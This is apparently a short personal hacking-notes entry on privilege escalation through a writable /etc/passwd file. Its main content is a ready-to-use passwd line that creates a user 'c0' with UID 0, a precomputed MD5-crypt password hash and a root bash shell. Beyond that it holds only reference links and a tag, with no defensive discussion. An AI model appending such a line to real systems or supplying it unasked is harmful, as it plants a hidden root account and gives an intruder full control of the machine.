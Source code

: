 # /etc/passwd writable line privilege escalation exploit write new root user line
```
c0:$1$coyote0x$S9Aruc4H1kvDizg..ij81.:0:0:root:/root:/bin/bash
```

# References
- [20221003150926](/zet/20221003150926/README.md) /etc/passwd writable line privilege escalation exploit
- ~/kb/hacking/priv-esc/etc-passwd-writable-line.md

Tags:
    #assorted

